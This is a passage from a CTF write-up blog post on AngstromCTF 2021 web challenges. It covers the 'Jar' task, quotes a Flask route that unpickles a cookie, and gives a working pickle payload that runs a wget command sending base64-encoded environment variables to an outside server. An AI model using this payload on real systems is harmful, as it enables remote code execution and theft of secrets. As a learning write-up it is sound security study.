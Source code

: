```yaml
---
title: AngstromCTF Web Writeups
summary: 
date: "2021-04-11T00:20:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```

Finally after finishing my exams , I had the opportunity to participate in the last 2 days of AngstromCTF with my team Fword and managed to solve all the web challenges except the last 3 tasks, unfortunately I didn't have the chance to try the last two ones , bad subjects at school are always keeping me from playing CTFs and learning useful stuffs :( !
However, I have really liked the web challenges especially the client side ones, we will go through all the tasks so let's begin.

## Jar ##

![TASK](https://imgur.com/JEzoi9Q.png)

This task was straightforward, as we can see in the source code it's clearly an unsafe pickle deserialization vulnerability 

```python
@app.route('/add', methods=['POST'])
def add():
        contents = request.cookies.get('contents')
        if contents: items = pickle.loads(base64.b64decode(contents))
        else: items = []
        items.append(request.form['item'])
        response = make_response(redirect('/'))
        response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
        return response
```

We can generate our payload with the following script to achieve RCE and exfiltrate the flag 

```python
import pickle,base64
class exploit(object):
        def __reduce__(self):
                import os
                return (os.system,('wget https://SERVER/?a=`env|base64|tr -d "\n"`',))
base64.b64encode(pickle.dumps(exploit()))

```
